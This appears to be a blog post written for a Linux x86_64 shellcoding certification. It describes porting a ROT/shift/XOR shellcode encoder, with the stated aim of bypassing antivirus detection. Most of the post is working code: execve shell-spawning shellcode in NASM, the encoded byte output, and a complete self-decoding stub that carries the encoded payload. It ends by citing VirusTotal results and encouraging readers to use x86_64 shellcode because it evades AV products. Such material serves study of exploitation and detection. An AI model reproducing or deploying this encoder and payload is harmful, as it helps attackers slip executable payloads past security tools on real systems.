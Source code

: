 Introduction
------------
Encoding schemes are used to transform data in a way that makes it consumable by different systems in a safe manner. In this post we’ll look at how we can bypass AVs by ab(using) this scheme to encode otherwise detectable shellcode.

Shellcode
---------
We will be porting an [x86 encoder](https://www.exploit-db.com/exploits/43890) I made a while back to make it work `x86_64` architecture. Please refer to my SLAE32 blog series for more details on the encoder itself. I’ve also made a quick `execve()` shellcode to test with.

```nasm
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
```

Will reuse the `x86` encoder [script](https://github.com/ihack4falafel/SLAE64/blob/master/Assignment%204/Encoder.py) developed during the SLAE32 blog series, all we need is feed it our newly created `/bin/sh` shellcode and generate an encoded version of it.

```sh
➜  A4 ./Encoder.py 13 1 1337
Original Shellcode: 0x50, 0x99, 0x52, 0x5e, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x53, 0x54, 0x5f, 0xb0, 0x3b, 0x0f, 0x05, 
Encoded Shellcode : 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
➜  A4 
```

Here’s `Decoder.asm` ported to `x86_64` including previously generated encoded shellcode.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to RSI
	
decoder:

    pop rsi                      ; store encoded_shellcode pointer in RSI
    push rsi   		             ; push encoded_shellcode pointer to stack for later execution
    mov rdi, rsi                 ; move encoded_shellcode pointer to RDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [rsi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [rdi], al                ; move decoded byte to RDI	
    inc rsi                      ; point to the next encoded_shellcode word
    inc rsi
    inc rdi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [rsp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
```

Let’s run it.

![](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif)

Out of curiosity, I decided to compare my `x86` encoded shellcode VT results (taken at the time the original `x86` encoder was created) with `x86_64` one and I found the results quite interesting.

![x86 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.45.33-PM.png)


![x86_64 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.46.08-PM.png)

Closing Thoughts
----------------
The VT results clearly shows that AV vendors don’t care much for `x86_64` shellcode at this point in time which is another good reason why we should use it more. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%204). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
